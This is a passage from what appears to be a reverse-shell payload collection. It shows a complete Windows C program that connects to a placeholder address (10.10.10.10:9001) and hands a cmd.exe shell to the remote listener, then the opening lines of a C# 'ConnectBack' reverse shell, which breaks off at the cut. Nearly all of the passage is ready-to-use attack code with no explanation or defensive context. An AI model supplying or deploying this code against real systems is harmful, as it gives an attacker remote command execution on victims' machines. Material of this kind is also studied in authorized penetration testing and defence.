 Windows Version
```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "10.10.10.10"; 
char port[6] = "9001";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}
```


## C\#
```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;
```